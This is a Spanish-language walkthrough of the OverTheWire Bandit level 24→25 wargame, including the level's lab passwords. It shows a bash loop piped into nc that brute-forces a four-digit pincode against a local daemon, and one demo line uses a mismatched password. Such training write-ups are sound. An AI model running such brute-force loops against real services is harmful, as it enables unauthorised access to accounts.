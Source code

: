 ## Bandit Level 24 → Level 25
## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

## Datos de acceso al nivel
```
bandit24 - VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
## Solución
```cmd
bandit24@bandit:~$ nc -v localhost 30002
Connection to localhost (127.0.0.1) 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line,
separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 123
Wrong! Please enter the correct pincode. Try again.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 987
Wrong! Please enter the correct pincode. Try again.
^C
bandit24@bandit:~$ for i in {0000..0003}; do echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i ; done
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v
Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single
line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
Exiting.
```
## Notas adicionales
- para crear secuencias en linux podria utilizar: for i in {0000..0010};
- more sirve para mostrar lo que cabe en la pantalla, da otra tecla y aparece lo demas
- nc permite acceder a los puertos
## Referencias